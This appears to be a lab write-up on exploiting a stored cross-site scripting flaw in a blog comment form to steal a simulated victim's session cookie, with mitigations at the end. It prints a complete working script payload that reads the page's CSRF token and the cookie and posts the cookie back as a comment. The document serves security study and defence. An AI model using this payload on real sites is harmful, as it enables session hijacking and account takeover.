



# Lab 04: Exploiting Cross-Site Scripting to Steal Cookies


## 1. Lab Overview

This lab demonstrates how a Stored Cross-Site Scripting (XSS) vulnerability can be exploited to steal another user's session cookie.

The application contains a vulnerable comment functionality. User-submitted comments are stored and displayed to visitors. A simulated victim automatically views the comments after they are posted.

The objective was to exploit the stored XSS vulnerability to execute JavaScript in the victim's browser, retrieve the victim's session cookie, and make that cookie accessible through the application's comment functionality.

The attack involved more than simply reading `document.cookie`. The application also required a valid CSRF token and post ID when submitting a comment. Therefore, I had to understand how the comment form worked and how to submit a new comment programmatically from the victim's browser.

### Lab Objective

1. Identify the stored XSS vulnerability in the comment functionality.
2. Execute JavaScript in the victim's browser.
3. Retrieve the victim's session cookie.
4. Submit the cookie through the comment functionality.
5. Obtain the cookie and use it to impersonate the victim.

## 2. Understanding the Comment Functionality

Before constructing the exploit, I examined the comment submission form.

The application provided the following fields:

- Comment
- Name
- Email
- Website

I inspected the form using the browser's Developer Tools and identified the following HTML structure:

```html
<form action="/post/comment"
      method="POST"
      enctype="application/x-www-form-urlencoded">

    <input required type="hidden"
           name="csrf"
           value="CSRF_TOKEN">

    <input required type="hidden"
           name="postId"
           value="6">

    <textarea required name="comment"></textarea>

    <input required type="text" name="name">

    <input required type="email" name="email">

    <input type="text" name="website">

    <button type="submit">Post Comment</button>
</form>
```

Two hidden fields were particularly important:

| Field | Purpose |
|---|---|
| `csrf` | Contains the CSRF token required to submit the comment. |
| `postId` | Identifies the blog post to which the comment belongs. |

The comment form submits a POST request to `/post/comment`.

This meant that if I wanted to submit a comment programmatically, I needed to provide the required form parameters rather than simply sending the cookie somewhere.

### Screenshot 1 – Comment Submission Form



The screenshot shows the comment functionality and the fields available for submitting a comment.

### Screenshot 2 – Inspecting the HTML Form



The HTML inspection revealed the hidden CSRF token and post ID fields required by the comment submission endpoint.

**Important clarification about the CSRF token:**

The CSRF token visible in my screenshot belongs to my own browser session. It is not the victim's CSRF token.

The JavaScript payload executes in the victim's browser. Therefore, when the payload accesses the comment form, it reads the CSRF token and post ID available in the victim's page at that time.

This distinction is important because the exploit must use the token belonging to the browser session that is submitting the request.

## 3. Understanding the Victim's Session Cookie

A session cookie is commonly used by web applications to identify an authenticated user across multiple HTTP requests.

After authentication, the browser stores a session cookie and automatically includes it in subsequent requests to the corresponding website.

In this lab, the victim's browser contained a session cookie.

I inspected the browser's Application tab in Developer Tools and identified the session cookie under:

**Application → Storage → Cookies**

### Screenshot 3 – Session Cookie in Browser Storage



The screenshot shows the session cookie stored by the browser.

The important JavaScript property here is:

```javascript
document.cookie
```

It allows JavaScript to access cookies available to the current document, provided those cookies are not protected by the `HttpOnly` attribute.

Since the lab allows the session cookie to be accessed through JavaScript, the injected script can retrieve it.

## 4. Understanding the Exploitation Approach

My approach was to make the victim's browser perform the necessary actions itself.

Instead of relying on a separate external collection endpoint, I used the application's own comment functionality to make the stolen cookie appear in a newly submitted comment.

The attack follows this sequence:

1. The victim visits the blog post containing the malicious stored comment.
2. The browser executes the injected JavaScript.
3. The script waits for the DOM to finish loading.
4. It reads the CSRF token and post ID from the comment form.
5. It reads the session cookie using `document.cookie`.
6. It submits a new comment containing the cookie.
7. The application stores the submitted comment.
8. The cookie becomes visible in the blog's comments.

The key idea was to use the victim's authenticated browser session to submit the comment.

## 5. Final Payload

The following JavaScript was submitted as the stored XSS payload:

```html
<script>
document.addEventListener('DOMContentLoaded', function() {
    const csrf = document.querySelector('input[name="csrf"]').value;
    const postId = document.querySelector('input[name="postId"]').value;
    const cookie = document.cookie;

    fetch('/post/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams({
            csrf: csrf,
            postId: postId,
            comment: cookie,
            name: 'victim',
            email: 'victim@example.com',
            website: 'https://example.com'
        })
    });
});
</script>
```

## 6. Payload Breakdown

| Component | Purpose |
|---|---|
| `<script>` | Introduces JavaScript into the stored comment. |
| `DOMContentLoaded` | Waits until the HTML document has been parsed. |
| `document.querySelector()` | Locates the hidden form fields. |
| `input[name="csrf"]` | Selects the CSRF token field. |
| `input[name="postId"]` | Selects the blog post ID field. |
| `document.cookie` | Reads JavaScript-accessible cookies belonging to the current document. |
| `fetch()` | Sends a POST request to the comment submission endpoint. |
| `method: 'POST'` | Specifies the HTTP request method. |
| `Content-Type` | Identifies the submitted data as URL-encoded form data. |
| `URLSearchParams()` | Encodes the form parameters into the expected request-body format. |
| `comment: cookie` | Places the retrieved cookie into the comment content. |
| `name`, `email`, `website` | Supplies the remaining comment form values. |

## 7. Understanding the JavaScript Execution Flow

Let's examine the important parts of the payload.

### Step 1 – Wait for the DOM

```javascript
document.addEventListener('DOMContentLoaded', function() {
```

The script registers an event listener that runs after the browser has finished parsing the HTML document.

This is important because the script needs to access elements belonging to the comment form.

### Step 2 – Retrieve the CSRF Token

```javascript
const csrf = document.querySelector('input[name="csrf"]').value;
```

This locates the hidden CSRF input field and reads its value.

The token is retrieved dynamically from the browser executing the payload. It is not a hardcoded token copied from my own browser.

### Step 3 – Retrieve the Post ID

```javascript
const postId = document.querySelector('input[name="postId"]').value;
```

The application requires the post ID to identify the blog post receiving the comment.

The script reads it directly from the form.

### Step 4 – Read the Session Cookie

```javascript
const cookie = document.cookie;
```

This retrieves the cookies accessible to JavaScript for the current document.

The resulting value is stored in the `cookie` variable.

**Security note:** Cookies marked `HttpOnly` cannot be read through `document.cookie`. This technique works in the lab because the relevant session cookie is JavaScript-accessible.

### Step 5 – Submit the Comment

```javascript
fetch('/post/comment', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
        csrf: csrf,
        postId: postId,
        comment: cookie,
        name: 'victim',
        email: 'victim@example.com',
        website: 'https://example.com'
    })
});
```

The `fetch()` function submits a POST request to the application's comment endpoint.

The request includes:

- The CSRF token retrieved from the current page.
- The current blog post ID.
- The session cookie as the comment content.
- The remaining required comment fields.

Because this request is made from the victim's browser to the same application, the browser uses the victim's authenticated session for the request.

The application then processes and stores the submitted comment.

## 8. How the Cookie Becomes Accessible

The important part of this technique is that the cookie is placed inside the comment field:

```javascript
comment: cookie
```

After the POST request is processed, the application stores the submitted comment.

When the comments are displayed, the cookie value appears as the content of the newly submitted comment.

This provides a way to retrieve the value through the application's own comment functionality.

The flow can be represented as:

```text
Victim visits blog post
        |
        v
Stored XSS executes
        |
        v
JavaScript reads CSRF token
and post ID from the page
        |
        v
JavaScript reads document.cookie
        |
        v
fetch() submits a new comment
        |
        v
Application stores the comment
        |
        v
Cookie appears in the comment
        |
        v
Cookie can be obtained
```

## 9. Understanding Session Hijacking

A session cookie can act as proof of an authenticated session.

If an attacker obtains a valid session cookie and the application accepts it as authentication, the attacker may be able to impersonate the user without knowing their password.

This is known as **session hijacking**.

The general process demonstrated by this lab is:

1. Obtain the victim's session cookie.
2. Use the cookie in a browser session where the victim is not authenticated.
3. Access the application using the victim's authenticated session.

The lab demonstrates why session cookies must be protected against unauthorized JavaScript access and why stored XSS can have consequences beyond displaying an alert.

## 10. Root Cause

The root cause is a Stored Cross-Site Scripting vulnerability in the application's comment functionality.

User-controlled comment content is stored and later rendered without adequate protection against JavaScript execution.

Because the application executes the injected script in the context of its own origin, the script can interact with the page's DOM and access JavaScript-readable browser data.

The vulnerability becomes particularly serious because the simulated victim automatically views submitted comments.

## 11. Security Lessons and Mitigation

This lab demonstrates how a stored XSS vulnerability can lead to session compromise.

Recommended security measures include:

1. **Context-aware output encoding:** Encode untrusted comment content according to the HTML context in which it is displayed.
2. **Safe DOM manipulation:** Use safe DOM APIs and avoid inserting untrusted content through unsafe HTML sinks.
3. **HttpOnly cookies:** Set the `HttpOnly` attribute on session cookies to prevent JavaScript from reading them through `document.cookie`.
4. **Secure cookies:** Use the `Secure` attribute to restrict cookie transmission to HTTPS connections.
5. **SameSite cookies:** Configure an appropriate `SameSite` policy to help reduce cross-site request risks.
6. **Content Security Policy:** Apply a restrictive CSP to reduce the impact of injected scripts.
7. **Session protection:** Rotate or invalidate sessions when compromise is suspected and use appropriate session expiration policies.

**Important:** `HttpOnly` is a useful defense against direct cookie theft through JavaScript, but it does not fix the underlying XSS vulnerability. An injected script may still perform actions using the victim's authenticated browser session.

## 12. Key Takeaways

- Stored XSS can execute whenever another user views the affected content.
- JavaScript running in a page can interact with the page's DOM.
- `document.cookie` exposes cookies that are not protected by `HttpOnly`.
- CSRF tokens can be dynamically read from the page by same-origin JavaScript.
- The victim's browser can make authenticated requests using its existing session.
- A stolen session cookie may allow an attacker to impersonate the victim.
- Stored XSS can therefore lead to account compromise and session hijacking.

**Conclusion:** This lab demonstrated how a Stored XSS vulnerability can be used to compromise a victim's session. By executing JavaScript in the victim's browser, reading the available session cookie, and using the comment functionality to expose its value, the attack showed how an XSS vulnerability can escalate into session hijacking.

The most important lesson is that XSS is not limited to executing JavaScript alerts. When malicious scripts execute in an authenticated user's browser, they may be able to access sensitive page data and perform actions within the user's session.
